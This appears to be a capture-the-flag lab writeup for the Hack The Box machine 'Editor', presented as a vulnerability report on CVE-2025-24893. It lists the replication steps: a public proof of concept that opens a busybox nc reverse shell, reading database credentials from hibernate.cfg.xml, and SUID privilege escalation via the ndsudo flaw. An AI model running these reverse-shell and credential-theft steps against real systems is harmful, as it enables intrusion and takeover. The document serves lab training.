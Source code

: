 

# CVE-2025-24893 — Remote Code Execution

## Description

Editor.htb is vulnerable to unauthenticated remote code execution (RCE).

## Impact

Medium impact: allows access to sensitive information on the server which breaches CIA prinicples of confientiality. Ask mentor if can delete files?

## Likelihood

High: this vulnerablity does not require authentication to exploit.



## Evidence 
### Replication steps 

 <img src="images/editor_version.png" class="editors" alt="editor">

 From the login page a version is clearly displayed. Research shows vulnerablity for that version https://nvd.nist.gov/vuln/detail/CVE-2025-24893. Google CVE-2025-24893 pOc and github is found. 

 1. Download CVE-2025-24893.py
 2. start listening nc -lvnp port
 3. execute `python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc ip 9001 -e /bin/bashw`
 4. nc terminal will start rce 
 5. spawn shell - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 6. enumerate files on webserver will discover user oliver 
 <img src="images/oliver_found.png" class="editors" alt="user found">









 7. Google files on server and find hibernate.cfg.xml which stores XWiki data 
 8. find and open hibernate.cfg.xml
 9. Will see passwords used to login
10. ssh as oliver with password and one will be successful  








## Replication steps 
1. Identify files that execute with elevated privileges. `find / -type f -perm -4000 -user root 2>/dev/null`
2. google /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo vulnerablity 
3. Open https://github.com/T1erno/CVE-2024-32019-Netdata-ndsudo-Privilege-Escalation-PoC
4. Copy payload.c and CVE-2024-32019.sh
5. Create nvme file `gcc -static payload.c -o nvme -Wall -Werror -Wpedantic to create` 
6. transfer to ssh shell
7. run sh CVE-2024-32019.sh to get root shell 

 <img src="images/editor_priv_esc.png" class="editors" alt="editor priv esc">





